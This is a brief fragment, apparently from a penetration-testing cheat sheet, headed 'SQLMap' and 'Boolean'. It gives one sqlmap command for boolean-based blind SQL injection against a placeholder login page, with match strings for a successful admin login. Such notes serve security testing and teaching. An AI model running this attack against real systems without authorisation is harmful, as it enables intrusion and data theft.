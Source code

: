 # SQLMap

Boolean

```
$ sqlmap -u "http://example.com/vulnerable.php"  --technique B --string="Welcome, admin!" --not-string="Invalid login"
```